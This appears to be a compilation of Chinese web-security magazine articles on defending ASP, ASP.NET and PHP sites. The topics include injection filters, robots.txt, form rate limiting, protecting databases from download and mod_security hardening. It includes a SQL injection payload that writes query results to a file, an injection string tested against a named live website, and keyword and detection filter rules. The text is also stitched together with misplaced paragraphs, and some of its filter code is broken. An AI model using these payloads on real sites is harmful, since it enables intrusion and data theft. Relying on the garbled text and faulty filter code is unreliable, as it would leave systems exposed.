发现这些字符就跳回原来的页面，使得攻击者无法判断信息是否正确。通过页面变量直接取值的，请使用 request.QueryString，可防止入侵者使用 POST：

```vb
if instr(request.querystring('id'),'''')>0 or instr(request.querystring('id'),'insert')>0 or instr(request.querystring('id'),'--')>0 then
    response.write "<script language=script>javascript:history.go(-1)</script>"
    response.end
end if
```

- 改掉预设的 Web 虚拟路径，不要使用 IIS 安装时默认（系统所在磁盘）`\inetpub\wwwroot` 路径，网页目录最好不要放在 C 盘。
- 利用 On Error Resume Next 排除网页出错，或使用错误重定向逻辑。

```vb
if Err.Number<>0 then
    response.write redirect url ...
end if
```

重定向到你指定的系统页面，删除或修改默认的出错页面（重点是 500 出错页面），让入侵者无法参考出错信息。

### 4. 系统的配置

- 使用防火墙关闭 TCP 1433 / UDP 1434 端口对外连接。
- 升级最新补丁（关注微软发布的补丁文件，及时修复，MS SQL 2000 Server 有 SP4 补丁）。
- 检查系统是否存在弱口令用户，一旦出现就要及时修改密码。

最后，网站的安全还是要靠广大程序员来共同维护，一时麻痹大意将使你的网站面临很大的灾难。SQL INJECTIONS 可谓防不胜防，这些方面也不单单是 MS SQL，包括 Oracle、Sybase、Mysql 等，希望能创造出好的网络环境。

---

脚本小子：逃避搜索引擎？看到这个题目也许会让你觉得迷惑，一般都是千方百计让引擎搜索到自己的网站，怎么还要让它找不到自己呢？呵呵，如果你的私人秘密也能被人搜索到，那你会怎么想？不用费脑细胞了，往下看就能找到答案！

## 搜索引擎能发现我们？

假如你是一个站长，我想你总在千方百计地让你的网站能在搜索引擎里面找到，并且能够在搜索引擎里面排名靠前……搜索引擎不是个蛮不讲理、横行霸道的入室盗贼，如何把搜索引擎拒之门外呢？

当然，机器人也需要休息的，网络机器人是定期发出，完成一个工作时段就结束……指挥这个网络机器人，不让它见门就进、见路就闯，就是接下来的工作了。

## 探索搜索引擎原理

首先，我们要知道搜索引擎的工作原理。网络搜索引擎主要由网络机器人（Robot，这个是全文的关键）、索引数据库和查询服务 3 个部分组成……典型的网络机器人的工作方式是查看页面、抽取关键词与网页信息、沿链接继续抓取，并建立索引供用户搜索。

## 逃避搜索引擎的法眼

作为搜索引擎的开发者，同样留给了网络管理员或网页制作者一些方法来限制网络机器人的行为。机器人访问网站时通常会先检查 `http://www.yoursite.com/robots.txt` 文件，根据其中内容确定可访问范围。

```txt
User-agent:
```

该值用于描述搜索引擎 robot 的名字。不同搜索引擎名字不同；在 `robots.txt` 中可以有多条 `User-agent` 记录。若设为 `*`，则表示对所有机器人有效。

```txt
Disallow:
```

该值用于限制 robot 访问到的 URL。可以是完整路径，也可以是部分路径。凡以 `Disallow` 开头声明的 URL 均不会被 robot 访问到，例如 `Disallow:/hacker` 可限制相关目录与页面被搜索引擎访问，而 `Disallow:/hacker/` 则 robot 照样可以访问 `/hacker.html`，而不能访问 `/hacker/index.html`。任何一条 Disallow 记录为空，也就是说在多条 Disallow 记录下，只要有一条写成 `Disallow:`，说明该网站的所有内容都允许被访问。在 `/robots.txt` 文件中，至少要有一条 Disallow 记录。

`*` 有特殊含义，代表 “any robot”，所以在该文件中不能有 `Disallow: /bbs/*` 或 `Disallow: *.gif` 这样的记录出现。

```txt
User-agent: *
Disallow: /cgi-bin/
Disallow: /bbs/
Disallow: /private/
```

下面是 robots.txt 的一些例子，只要把下列任何一个代码保存为 robots.txt，然后传到指定位置，就可以实现逃避搜索引擎的法眼。

例 1：禁止所有搜索引擎访问网站的任何部分。

```txt
User-agent: *
Disallow: /
```

例 2：允许所有 robot 访问。

```txt
User-agent: *
Disallow:
```

例 3：禁止某个搜索引擎的访问。

```txt
User-agent: BadBot
Disallow: /
```

例 4：允许某个搜索引擎的访问。

```txt
User-agent: baiduspider
Disallow:
User-agent: *
Disallow: /
```

例 5：一个简单例子。在这个例子中，该网站有 3 个目录对搜索引擎的访问做了限制，即搜索引擎不会访问这 3 个目录。需要注意的是对每一个目录必须分开声明，而不要写成 `Disallow: /cgi-bin/ /bbs/`。User-agent: 后的 `*` 具有特殊含义，代表 “any robot”。

是不是这样设置后，搜索引擎马上就找不到我们所限制的网页呢？不是的，就像文章开始前说过，网络机器人是定期发出，一旦在索引数据库里面做了记录，就要等下次更新数据库时才有可能生效。一个快捷的办法，就是马上到搜索引擎上去注销你的网页，可这个也是需要等待几天的。如果对于十分重要的网页，只要更换个目录或文件名就可以了。

对于你已经希望保密的网页来说，千万不要在其他未保密的网页里有 URL 连接到这些网页上，在网络机器人工作原理那里已经说过，它可以从该页面的所有链接中出发，继续寻找相关的信息。

可是，你想到没有，对于纯文本文件，是可以通过 HTTP 或 FTP 下载的，也就是说，有坏心眼的人可以通过这个 robots.txt 找到一些线索。解决的办法最好是使用 Disallow 来限制目录，并且对这个目录下不需要保密的网页使用特殊文件名，不要使用 index.html 之类的名字，不然这跟猜弱口令一样容易。起些形如 d3gev32.html 的文件名，你的网页就安全多了。

最后还不放心的话，就再给保密网页上一道密码验证的保险，那就高枕无忧了。

---

脚本小子：大家是否还记得松哥刚公布恋爱时，广大黑友们激动的情绪？那时候格式表单的到处都是。时至今日，我们虽未有人从脚本方面着手，表单安全又是怎样一种风景呢？

## 表单……又见表单

最近我在做几个 Web 程序，结合我的一些经验，对一个接收自由提交表单的数据文件进行安全性分析，不敢和小榕的思路相比，也根本没得比，希望对各位有帮助。首先说明一下，代码中的 error() 和 succeed() 是我自定义的函数，用于显示错误信息和成功信息，其实也可以直接 echo 出错误信息，我只是想我的出错信息页面漂亮点，定义了一个页面输出函数罢了。

详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

## 问题分析

上面是一个记录评论数据的文件。表单如下：

```html
<form action="savecomment.php" method="POST">
<input type="hidden" name="blogid" value="<?= $row['blogid'] ?>">
您的名字: <input name="name" type="text" size="20" maxlength="100">
评论内容: <textarea name="content" cols="60" rows="8"></textarea>
<input type="submit" name="Submit" value="提交">
```

对于一个学习过 PHP 的人很容易看懂，但为什么我要拿来分析？因为在我学习 PHP 期间，看了不少程序代码，发现有个很普遍的问题，那就是大多数程序对于接收来自表单的数据做的检查还是不够严谨。这恐怕是程序员思维问题，因为这些安全措施都是很容易实现的。

对于一个简单的评论功能，我们假设它有两个地方需要填写，即评论人的姓名和评论内容，我们需要判断的地方如下：

- 表单是否为空；
- 表单长度（该项和上面的项判断称为逻辑性判断，凡事都要符合逻辑）；
- 表单内容（判断记录是否存在于数据库内，防止重复提交）；
- 隐藏变量的过滤（如果有的话，注意上面表单有一个隐藏变量 `type="hidden"`，这往往容易让人忽略）；
- 提交时间间隔（这个是最最容易被忽略的）。

逻辑判断很多人都做了，这仅仅解决了程序的逻辑问题。作为安全的程序，我们还要从安全角度进行判断。一个没有做过安全检查的此类程序，最容易受到以下攻击：

- 修改隐藏变量进行非法提交（比如注入）；
- 重复提交（对 Web 程序进行 DOS 攻击）。

修改隐藏变量通常是在本地构造一个表单，然后指定隐藏变量，如果过滤不到位，直接构造：

```sql
"' or '1'='1' UNION SELECT * FROM any_table INTO OUTFILE 'c:/www/jafo.txt'"
```

然后提交，会有什么结果不用说了吧？如果采用 POST 提交表单后刷新会出现提示，然后确定就可以反复提交，这样既浪费服务器资源，如果量大的话站点速度可能会受影响。特别是数据量大的搜索引擎，这就是小小表单未做安全过滤的结果，所以，我们就要进行防御。

## 防御思路

- 采用 cookie/session 进行提交时间间隔判断；
- 提交前用 `strlen()` 函数判断欲提交的标题和内容是否和数据库里已有的一致；
- 完成提交后用 `Header("Location: url")` 跳转到其他页面。

下面我们就对上面的 savecomment.php 代码段进行分析。对于采用 cookie/session 进行提交时间间隔判断这两种方法，我有以下看法：Cookie 信息存在客户端，可被修改或删除；Session 信息存放在服务器，较安全但占用服务器资源。

```php
1. Cookie
<?php
if (isset($_COOKIE['beforeid'])) {
    error('对不起,你两次提交的时间间隔还不到2分钟<br>');
} else {
    // 执行插入语句
}
```

先检查相关 Cookie 是否存在，已存在则给出错误提示，不存在则正确执行代码段；执行完毕后设置一个 Cookie，表示已经提交过，`60*2` 表示 2 分钟。

```php
setcookie('beforeid',$blogid,time()+60*2,'/','',0);
succeed('评论提交成功<br>');
}
?>
```

```php
2. Session
<?php
session_start();
if (session_is_registered('time') && time() - $_SESSION['time'] < 60*2) {
    error('对不起,你两次提交的时间间隔还不到2分钟<br>');
} else {
    // 执行插入语句
}
```

先检查相关 Session 是否存在，已存在则给出错误提示，不存在则正确执行代码段；执行完毕后设置一个 Session，表示已经提交过，`60*2` 表示 2 分钟。

```php
$time=time();
session_register('time');
succeed('评论提交成功<br>');
?>


```

这个时间间隔的方法可以用于各种表单，比如搜索、留言等，可以有效地控制程序的有序运行。

| 适合对象 | 程序设计爱好者 |
|---|---|
| 前置知识 | JavaScript 函数的使用技巧，网络数据库加密常识 |
| 难度等级 | 中 |

## 用 JavaScript 加密数据库

文／图 张贤高

> 大家的数据库是否经常受到黑客的威胁呢？数据库被别人下载是一个严重的问题。有没有一种方法可以使数据库加密，即使被人下载了我们的数据库也没办法读取呢？当然有！

本篇文章着重介绍两种利用 JavaScript 函数实现对网站数据库加密的方法、加密的原理及效果，以确保网站数据库信息的安全，避免数据库被下载以后的威胁。网站数据库的加密方法有多种，有的是通过对数据库设置密码，有的是通过数据加密的方法，这里介绍两种方法，其基本原理如图1所示。
要得到更加安全的数据库内容，就必须在加密的手段和方法上下功夫，从而确保数据库的安全。

### 不读取密钥的加密方式

在网站的建设中，需要脚本加入所需要加密的函数，通过这些函数将数据信息进行加密后保存在数据库中。函数的加密原理及密钥均在函数中；只要他人看不到这个函数，就很难破解数据库的信息。加密和解密运行后的结果如图2所示：
详细代码请查看光盘“源代码”栏目，按照文章名查找即可。通过加密后的数据库信息已变成不可认的信息或乱码，别人没有办法查看数据库中的内容。

### 读取密钥的加密方式

这种方法是在上述方法的基础上，通过函数读取文件中的密钥后，再进行加、解密。密钥可以以磁盘的形式随身带，这种加密方法更加安全、可靠。详细代码请查看光盘“源代码”栏目，按照文章名查找即可。加密的方法有多种，关键还是要找准其中的算法，让别人无法找到密钥，最大限度地确保信息的安全，你完全可以自己创造一个算法来进行加密！

三个思路是用 Header("Location: url"); 跳转页面，我想既然加入了 cookie/session 验证就不必贸然跳转了，毕竟大家还是想看看提交的相关信息的。怎么样？想不到小小的表单验证有这么大的学问吧？简单几行代码就切断攻击者的路子，其实这些都很容易，重要的是开发人员验证的思路。

我一个人只会加 cookie/session 验证这个思路，结合 Envymask 的判断长度这条思路，我又掌握一点。其实开发安全的程序，安全措施的思路很重要，即使掌握各种防御代码，但如果不考虑严谨，照样有空子可钻。鄙人刚学 PHP 不到半个月，写的代码不够规范、严谨，在各位高手面前班门弄斧了，有不足的地方请指正。

---

| 项目 | 内容 |
|---|---|
| 难度等级 | 中 |
| 适合读者 | ASP.NET 程序员、脚本入侵爱好者 |
| 前置知识 | ASP.NET 相关编写技术 |

## ASP.NET 中输入盒置函数的轻松构造

文／贺进锋
脚本小子，微软的 .NET 策略影响着网络中的每个人，大家或多或少对它都有一定的看法，当然，安全性自然是我们这个群体关注的热点。听很多朋友问过：ASP.NET 究竟在什么地方让微软如此自豪，让入侵者无法越雷池半步？下文将向大家讲述 ASP.NET 如何在简单编写功能模块后就能防护很大范围的脚本攻击的方法，大家一起来看看我们未来的“入侵目标”究竟优秀到什么程度吧！

ASP.NET 是由 ASP 升级而来的新一代 Web 开发技术，在安全性方面有很多优于 ASP 的地方。例如，默认情况下 ASP.NET 能自动检测 TextBox 或 URL 中存在的危险代码并做安全处理，使很多入侵 ASP 轻而易举的技术手法，到 ASP.NET 中便无计可施。但是 ASP.NET 默认的检测并不能达到很理想的效果，笔者在搜影（网址：www.25cn.net/souying/，一款专门搜索免费电影的搜索引擎）上做了个试验，在搜索框 TextBox 中输入 `<b>`、`<a>` 等字符，或者在 IE 地址栏提交以下字符串：`http://www.25cn.net/Souying/Search.aspx?key=<b>`，就直接遭到了 ASP.NET 的拦截，返回错误提示：

> 异常详细信息：System.Web.HttpRequestValidationException：从客户端(`key=<b>`)中检测到有潜在危险的 `Request.QueryString` 值。

看来微软确实在 .NET 框架里做了不少工作，这种功能表面看起来还蛮不错的，但是 ASP.NET 默认的设置并非能检测到所有的危险代码，甚至对一些危害数据库的代码也视而不见。例如：向搜影提交如下的字符串：

```text
http://www.25cn.net/Souying/Search.aspx?key=天龙八部'or 0<>(select count(*) from admin.c)
```

得到的结果却是返回电影《天龙八部》的详细信息和播放连接，可见 `or` 后边部分的字符串也参与了数据库查询，程序作者只是实现了关键词的拆分，并没有对其进行过滤，因此可以实行大量的 SQL 攻击（具体方法相信大家都很熟悉了，这里就不多说，有心的朋友可以自己测试一下）。

对于这种情况，在 ASP 中常用的防范方法是：编写一个过滤函数到独立的文件中，然后在每个需要过滤的页面用 `#include` 语句将该文件包含进来，进而使用过滤功能函数。

那么，在 ASP.NET 中如何编写过滤函数过滤掉这些危险的字符串呢？是不是也一样编写好文件然后 include？大可不必这么做，可以通过下面的方法来构造函数并使用它来过滤。

- 1. 输入框内容的检测

运行 Visual Studio .NET，打开“解决方案资源管理器”，找到相应的 ASP.NET 项目（例如 25cn），在项目图标上点击右键 -> 添加 -> 添加类，输入类名称：25cn.vb，单击“打开”按钮，即完成类文件的创建工作。下面在这个类的基础上创建输入过滤函数：

```vb
Public Class 25cn

Public Function CheckInput(ByVal InputString As String) As Integer
    ' 检查字符串InputString中是否含有非法字符，如有，返回0；没有则返回1
    Dim i As Integer
    Dim us As String
    For i = 1 To Len(InputString)
        us = Mid(InputString, i, 1)
        If us = "'" Or us = "m" Or us = """ Or us = "%" Or us = "<" Or us = ">" Or us = "&" Then
            Return 0
        Else
            Return 1
        End If
    Next
End Function

End Class
```

以上只是部分语句，读者有兴趣可以在 For 语句里加入其他字符的过滤，将其编成一个功能强大的过滤模块，应用于整个项目的任何页面。下面介绍一下如何使用这个函数：

假设页面 login.aspx 里有“用户名”和“密码”两个 TextBox 控件，现在要使用 CheckInput 函数过滤掉其中的危险字符，方法如下：打开 .aspx 文件，然后双击“登录”按钮，即打开代码……

代码后置类文件，输入以下内容：

```vb
' 定义并实例化一个类
Public 25cn As 25cn = New 25cn
If 25cn.CheckInput(yonghuming.Text) And _
   25cn.CheckInput(mima.Text) Then
   ' 如果输入合法，则与数据库中的数据比较
Else
   ' 如果不合法，则给出错误信息
   ErrorMsg.Text = "输入了不合法的字符"
End If
```

ClassId 要求只能是参数，很多程序员不注意参数过滤，直接将 ClassId 值通过 SQL 语句查询结果，给入侵者可乘之机。可使用 `CInt()` 将其强制转换为 int 类型，在接收页中获取参数值：

```vb
ClassId = CInt(Request.Params("ClassId"))


```

完成以上工作后，用户点击“登录”按钮将触发检查函数，对用户名、密码两个数据框进行检查。

### 2．对 URL 里 int 类型参数值的检测

很多时候 URL 传递参数要求是整数，例如：`http://www.25cn.net/Souying/index.aspx?ClassId=2`。

这样 ClassId 接收到的是经过强制转化后的 int 数值，输入非 int 参数会得到“输入字符串的格式不正确”的错误提示。以上函数并非万能，只能实现一般非法字符过滤，欢迎讨论与完善。

---

脚本小子：网站安全一直是让人头疼的问题，如果网站带有数据库的话，那么数据库被人下载将会让你辛苦经营的网站遭受灭顶之灾……下面结合一次实际经历，谈谈数据库防下载。

难度等级：中  
适合读者：网站管理员

## 防数据库被下载

### 终极技术

文／流浪
前些天，QQ 里的某仁兄去我的网站转了几圈，急传“你的网站有漏洞！”我心想不就是 SQL 注入漏洞吗？因为我的程序做过一些安全措施……后来证实了我的想法不足，数据库仍有被猜解与下载风险。下面针对常见网络情况，对数据库防下载的方法做一些经验总结。

以上是一些实际的管理经验，希望能给大家带来帮助，如有不足之处请指正。

### 购买空间，没有主机 IIS 控制权限

- 1. 更改数据库名或属性（文件后缀），增加猜解难度。  
  - 将数据库名改为复杂字符串（如含符号与随机字符）。  
  - 修改后缀为非常规扩展名以减少被直接下载的概率。
- 2. 该方法并非绝对安全，已较常见。
- 3. 在数据库名前加入特殊字符（如 `#`）以进一步防止被猜测下载。

## 脚本攻击防范（SCRIPT ATTACK DEFENCE）

原理是下载的时候只能识别井号前名的部分，对于后面的自动去掉……大家可以翻看。

### 2．修改数据库连接文件与数据库地址

一个数据库能被调用，需要其他文件调用，这好比一样物品的存在与被使用的过程需要我们的某些行为贯穿其中一样。来看具体方法。

- 1. 更改连接数据库的 `conn.asp`、`const.asp` 等文件名。默认文件名被猜解概率较大，可能通过错误信息暴露下载地址。
- 2. 修改数据库默认路径，短期内避免被猜到真实地址。可将数据库放到 Web 无法直接访问目录，并通过相对路径调用。

举例：Web 目录为 `D:\web\web001`，可把数据库放到 `D:\web\database`；连接串中使用 `../database/数据库名.后缀`，实现可调用但不可直接下载。

### 3．加密数据库及相关文件

将数据库（主要是 MDB）加上密码，并修改调用数据库连接文件以防下载。可在 Access 中设置数据库密码，再对连接文件加密。

```asp
conn.open "driver={microsoft access driver (*.mdb)};uid=xiaobai;pwd=数据库密码;dbq=数据库路径"
```

即使下载后也无法直接打开（需密码），但 Access/Word 加密并非绝对安全，仍可能被破解，因此只能算较消极防护。

### 4．删除后台登录窗口与后台管理文件

这是被动但常见的方法：删除或迁移后台相关文件，减少数据库被下载与被篡改风险。

为了防止网站漏洞产生后未及时维护，一些后台文件可仅保留必要管理文件，如 `admin_postings.asp`、`admin_lockuser.asp`、`admin_lockip.asp`，其余移动到不可下载目录，并做好本地备份。

管理员需要设置时再上传或移动回原目录。若站点存在 SQL 注入漏洞，隐藏数据库路径意义有限，仍需从漏洞修复入手。

### 具有主机 IIS 控制或设置权限

主机托管环境变化下，数据库被下载可能导致更严重后果（资料泄露、控制权丢失、主机破坏等），应重视主机安全。

- 1. 做好主机安全工作，防止入侵；数据库被下载往往源于站点漏洞或主机被控。
- 2. 合理使用 ODBC 数据源。对新设计 ASP 程序可考虑 DSN 方式配置。

```asp
conn.open "ODBC;DSN名"
```

若将数据库名写入 ASP 文件（如 `conn.asp`、`const.asp`），可使用映射路径等方式处理。

```asp
DBPath = Server.MapPath("../adminok/safefolder/xsfs@+ss123.mdb")
conn.open "driver={Microsoft Access Driver (*.mdb)};dbq=" & DBPath


```

Mod_security 模块的源代码放在 DLL 文件，请在修改后自行测试。比如：把一个 MDB 放在 Web 目录下，再在 IE 里打开下载地址，看是否能被下载到。要是出现 404 NOT FOUND（找不到文件）或 500 内部错误的话即表示成功。

正如我们在上面分析中提到的，数据库地址可能被暴露，因而极可能被下载，安全系数便变成了未知。不过这样也有不足，每当你换数据库目录时，ODBC 源也要随着改变设置。

（3）数据库放在 Web 可访问目录外。与购买虚拟空间一模一样，将数据库置于一个独立不可以 Web 直接访问目录，并进行调用就可以了。这不失为一个最简单但有效的方法（除非你的主机给入侵了，则另当别论了），这样也能积极地防范数据库被下载。

（4）添加适当的扩展映射。这个方法是在 IIS 里设置完成的，你只要加上相关的应用解析，就可以防止特定类型文件被下载，这样即使数据库地址被猜出，对方也因无法下载数据库而另辟途径或作罢，从而达到我们的保护目的。我们可以这样设置：打开控制面板→IIS 属性→指定的 WEB 网站→主目录→配置→映射→添加：`.mdb` 应用解析 `c:\winnt\system32\inetsrv\ssinc.dll`（图1），或是其他的……
（5）错误解析法。首先在 MDB 文件中建一个表，假设表中一字段名为 NotDownLoad，在表名建一个字段，字段中填入：`<%='a'--1%>`，再把数据库改名为 `.asp`，这样就算别人猜到了路径也下载不了，因为把扩展名改成 ASP 后在 IE 中输入时，遇到 `<%%>` 它就会去解释之间的代码。呵呵，结果会提示出错，所以数据库绝对不会被正确地下载！

说了这么多，上面的方法如果能合理综合利用起来的话，不知对大家有没有帮助呢？我想答案是肯定的。但是正如我提及的：假如主机不安全的话，那数据库的安全设置就显得多余了；如果你对自己使用的空间商没有信心，或是只为便宜而选择它，那么，安全方面你做好了吗？另外，网站程序的安全也日益重要，脚本攻击成为一个热点在各黑客站点火爆异常，我们的心中时不时会不自觉地去检验某些感兴趣的站点或服务器是否安全，是否能被我们更加合理地利用，或是最终扔下不是很好听的一句话：“这个管理员真的太不小心了！”而当某天某小黑客对你说：“你的站安全不错，至少我下不了数据库……”的时候，那种满足是否会溢于言表呢？

---

脚本小子：继网络上 ASP 注入攻击技术火爆以来，PHP 脚本的攻击技术也开始有爆发的态势，很多朋友在从 ASP 入侵向 PHP 入侵慢慢地转变，很多 PHP 脚本攻击的方法被研究出来并公布，PHP 系统的安全性也变得岌岌可危。在这样的情况下，如何将 PHP 系统做得更完善、安全性做到更好就成了当下讨论的热点，《黑客防线》将抓住这个热点，给大家介绍更多、更实用的 PHP 攻击、防护技术，让大家在 PHP 的天空下攻防自如！

- 难度等级：中
- 适合读者：服务器管理员

## 细叨细论安全的 PHP 系统

文／单长虹
> PHP 是用于创建动态网页的最流行的脚本语言之一。这篇文章给出了加强 PHP 安全性的基本步骤，在网络安全深入人心的今天，希望你也能打造安全的 PHP 程序！

## 操作系统

本文的例子在 FreeBSD 4.7 上实现，但方法同样适用于 UNIX 和类 UNIX 系统。本文假设 MySQL 数据库已经安装在了主机上，其安装目录为“/usr/local/mysql”。

## 安全假设

- PHP 的配置应该充分利用内建的安全机制。
- PHP 脚本必须在一个 Chrooted 环境中执行。
- Apache 服务器必须抛弃所有包含 HTML 标记的 Requests（GET 和 POST），这有利于防止跨站脚本和 SQL 注入攻击。
- 不要给 Web 应用的正常用户发出任何的警告或者错误消息。
- 应该将进来的 GET 和 POST 请求写入文本文件中，这将有助于我们使用基于主机的入侵监测系统 HIDS。

## 准备安装使用的软件

首先，我们必须下载最新版本的 Apache、PHP 和 Mod_security 模块的源代码。接下来，将我们下载的软件解压之后放在主目录，Mod_security 模块的源代码放在 Apache 的“src/modules/extra”目录下：

```bash
gzip -dc apache_1.3.27.tar.gz | tar xvf -
gzip -dc php-4.3.2.tar.gz | tar xvf -
gzip -dc mod_security_1.5.tar.gz | tar xvf -
cp mod_security_1.5/apache/mod_security.c apache_1.3.27/src/modules/extra/
```

同样的，如果有一些新的补丁出现，我们还应该将它们及时补充进来。在开始编译 PHP 之前，还必须决定到底采用 PHP 安装的 3 种方法中的哪一种。

- 作为 Web 服务器的静态模块。
- 作为 Web 服务器的动态模块。
- 作为 CGI 解释器。

上面 3 种方法每一种都有自己的优缺点：静态模块性能高但升级麻烦；动态模块升级方便但性能下降；CGI 可与 suEXEC 结合，但安装不当会带来安全威胁。从安全和效率角度看，较好的选择是静态模块。

## 安装 PHP

总体来说，安装带有 PHP 的 Apache 与不带 PHP 的过程很相似，主要不同在于需要两个附加模块：mod_php 和 mod_security。

创建一个叫做“Apache”的用户账号和组：

```bash
pw groupadd apache
pw useradd apache -c "Apache Server" -d /dev/null -g apache -s /sbin/nologin
```

然后，我们必须如下准备 Apache Web Server：

```bash
cd apache_1.3.27
./configure
```

接下来编译 PHP 模块：

```bash
cd ../php-4.3.2
./configure --with-mysql=/usr/local/mysql --with-apache=../apache_1.3.27 --enable-safe-mode
make
su
make install
```

转移到 Apache 的源码目录，继续进行安装：

```bash
cd ../apache_1.3.27
./configure --prefix=/usr/local/apache --disable-module=all --Server-uid=apache --Server-gid=apache --enable-module=access --enable-module=log_config --enable-module=dir --enable-module=mime --enable-module=auth --activate-module=src/modules/extra/mod_security.c --enable-module=security --activate-module=src/modules/php4/libphp4.a
make
su
make install
chown -R root:sys /usr/local/apache
```

在上面的“./configure”命令中，我们只启用了执行功能和安全需要所必须的模块。接下来返回 PHP 目录，拷贝默认 PHP 配置文件：

```bash
cd ../php-4.3.2
mkdir /usr/local/lib
chmod 755 /usr/local/lib
cp php.ini-recommended /usr/local/lib/php.ini
chown root:sys /usr/local/lib/php.ini
chmod 644 /usr/local/lib/php.ini
```

为了使 PHP 脚本能够被 Apache Web Server 正确处理，下面这一行应添加到 `/usr/local/apache/conf/httpd.conf`：

```apache
AddType application/x-httpd-php .php
```

写到这里，我们就可以检查一下 PHP 与 Apache 是否能够恰当地与 MySQL 交互数据了。我们写了一个例子脚本“test.php”：

```php
<html><body>
<?php
  $link = mysql_connect("localhost", "user_name", "password")
    or die;
  print "Everything works OK!";
  mysql_close($link);
?>
</body></html>
```

上面的脚本文件可以通过任何 Internet 浏览器测试。如果 PHP 命令能够被正确解释并且与 MySQL 连接也能够建立，就可以开始加强软件安全性；否则需要分析 Apache 和 MySQL 日志文件排查原因。

## 改变服务器的根目录

第一步是为带有 PHP 模块的 Apache 服务器准备一个 Chrooted 环境。在第一次在 chrooted 环境下运行 Apache 之前，还应拷贝如下库文件（它们是 PHP 正常运行所必须的）。

```bash
cp /usr/local/mysql/lib/mysql/libmysqlclient.so.12 /chroot/httpd/usr/lib/
cp /usr/lib/libm.so.2 /chroot/httpd/usr/lib/
```

```bash
cp /usr/lib/libz.so.2 /chroot/httpd/usr/lib/
```

另外，我们必须拷贝 PHP 的默认配置文件：

```bash
umask 022
mkdir -p /chroot/httpd/usr/local/lib
cp /usr/local/lib/php.ini /chroot/httpd/usr/local/lib/
```

还要创建一个 `/chroot/httpd/tmp` 目录，这个目录的所有者必须是 root，并且其访问权限要设为 1777。创建完这样的新环境后，测试一下看 Apache 是否能够正确运行：

```bash
chroot /chroot/httpd /usr/local/apache/bin/httpd
```

> 脚本小子：在配置 PHP 之前，我们必须注意一个非常重要的细节——PHP 和 MySQL 的交互。因为 PHP 通过 `/tmp/mysql.sock` 套接字在本地与 MySQL 交互，那么将 PHP 放入一个 chrooted 环境中，意味着它们之间不能正常交互了。为了解决这个问题，每次我们运行 MySQL 时，我们必须创建一个到 Apache chrooted 环境的固定连接：`ln -s /tmp/mysql.sock /chroot/httpd/tmp/...`

> 小提醒：为了使 PHP 和 MySQL 之间能正常连接，`/tmp/mysql.sock` 套接字和 `/chroot/httpd/tmp` 目录必须在物理上处在同一个文件系统中（文件系统之间的硬连接不起作用）。

## 配置PHP

在以前《黑防》的文章中，曾经讲过加强 Apache 安全性的过程。这里，我们还要使用 Apache 的配置文件来处理 PHP 脚本，必须向 `httpd.conf` 文件中添加如下内容：

```apache
AddModule mod_php4.c
AddType application/x-httpd-php .php
AddType application/x-httpd-php .inc
AddType application/x-httpd-php .class
```

值得注意的是，除了 `*.php`，两种扩展后缀如 `*.inc` 和 `*.class` 也被添加了进来。程序员可以让它包含额外的文件，使用扩展名 `*.inc` 和 `*.class` 或者类似一些文件。因为默认情况下这些扩展名可能被作为规则文件，当用户发送请求要求下载它们时，包含在其中的源代码将被泄漏，这可能导致泄漏密码和敏感信息。

下一步必须修改一下 PHP 的配置文件 `/chroot/httpd/usr/local/lib/php.ini`。为了提高 PHP 的安全性，一些比较重要的改变如表 1 所示：

另外，需要注意改变文件的扩展名，例如，将 `*.php` 改为 `*.asp`、`*.dhtml` 或者 `*.html`。作了这样的任何改变之后，会使潜在的入侵者感到困难，他们会意识到服务器端采用了安全技术，从而迷惑入侵者。为了改变扩展名，所有的 `*.php` 文件应重命名为 `*.dhtm`，可以在 `/chroot/httpd/usr/local/apache/conf/httpd.conf` 文件中作修改，将 `AddType application/x-httpd-php .php` 改为：`AddType application/x-httpd-php .dhtm`。这样做之后，Web 用户在 URL 地址栏中将不会看到 `*.php` 的后缀，这样就不会暴露服务器端使用的脚本技术了。

## 防御XSS和SQL Injection攻击

最后一步强化服务器的措施就是对 GET 和 POST 请求做日志记录，并且防御跨站脚本和 SQL 注入攻击。为了达到这个目的，必须使用 Mod_security 模块，这可以通过在 `httpd.conf` 中加入如下的行来实现：

```apache
AddModule mod_security.c
```

为了能够对 GET 和 POST 请求记录日志，还必须在 `httpd.conf` 中加入如下的部分：

```apache
<IfModule mod_security.c>
  AddHandler application/x-httpd-php .php
  SecAuditEngine On
  SecAuditLog logs/audit_log
  SecFilterScanPOST On
  SecFilterEngine On
</IfModule>
```

上面的命令能启用 Audit Engine，它可以负责将请求记录进日志，并且 Filtering POST Engine 将能够记录 POST 请求。

为了能够保护 Web 免受跨站脚本攻击，我们还必须在 `</IfModule>` 前面加上如下行：

```apache
SecFilterDefaultAction "deny,log,status:500"
SecFilter "<(\\n)+>"
```

第一行的作用是当接收到的请求匹配 `SecFilter` 变量所设定的值时，服务器返回客户端的 “Internal Server Error” 消息内容。显然，第二行的作用就是为 GET 或者 POST 请求设定过滤条件。

一个典型的 SQL 注入特征就是在 GET 或者 POST 请求中单引号（`'`）和双引号（`"`）的使用，通过忽略这种字符，我们可以让 SQL 注入变得非常困难：

```apache
SecFilter ...
SecFilter ...


```

需要注意的是，虽然对这些字符 `<`、`>`、`'`、`"` 的过滤，使得跨站脚本和 SQL 注入攻击变得非常困难，但是这对那些需要正常使用这些字符的用户确实是一个挑战。为了解决这个问题，我们可以在客户端使用 JavaScript 语言来开发，因为它里面使用了特殊的标记来替换这些特殊字符，如：`&lt;`、`&gt;`、`&quot;` 等。

| 参数 | 描述 |
|---|---|
| safe_mode = On | 通过使能 safe_mode 参数，PHP 脚本只能访问同一个所有者的文件。这是嵌入到 PHP 中的重要安全机制，可有效阻止对系统文件的未授权访问。 |
| safe_mode_gid = Off | 当 safe_mode 被打开并且 safe_mode_gid 被关闭时，PHP 脚本能否访问文件取决于 UID 一致性。 |
| open_basedir = directory[...] | 当 open_basedir 参数被使能，PHP 只能访问指定目录下的文件和子目录。 |
| safe_mode_exec_dir = directory[...] | safe_mode 打开后，system()、exec() 等系统程序函数只能在指定目录中执行。 |
| expose_php = Off | 关闭 expose_php 可避免 PHP 在 HTTP 头中泄漏自身信息。 |
| register_globals = Off | 关闭 register_globals 可避免 EGPCS 变量自动注册为全局变量带来的风险。 |
| display_errors = Off | 关闭 display_errors 可避免错误信息直接暴露路径、SQL 等敏感细节。 |
| log_errors = On | 打开 log_errors 可将警告和错误记录到日志文件。 |
| error_log = filename | 指定日志文件完整路径（该文件应允许 apache 用户组写入）。 |

### 总结

